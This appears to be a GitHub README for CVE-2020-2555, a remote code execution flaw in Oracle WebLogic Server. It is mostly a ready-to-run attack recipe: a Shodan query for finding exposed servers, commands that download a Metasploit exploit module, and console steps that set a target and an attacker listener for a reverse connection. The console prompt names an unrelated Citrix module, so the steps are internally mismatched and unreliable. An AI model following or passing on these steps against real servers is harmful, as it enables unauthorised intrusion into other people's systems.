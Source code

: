 # CVE-2020-2555

![](https://img.shields.io/static/v1?label=Product&message=Oracle WebLogicServer%20ADC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=3.7.1.0,%2012.1.3.0.0,%2012.2.1.3.0%20and%2012.2.1.4.0&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)



 - Shodan dork:
```
product:"Oracle WebLogic Server"
```


### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2020/WebLogic_Server_Deserialization_RCE/weblogic_deserialize_badattrval.rb
```
```
cp weblogic_deserialize_badattrval.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/misc/weblogic_deserialize_badattrval.rb
```
```
exploit(freebsd/http/citrix_formssso_target_rce) > set rhosts target_IP
exploit(freebsd/http/citrix_formssso_target_rce) > set lhost attacker_IP
exploit(freebsd/http/citrix_formssso_target_rce) > run
```
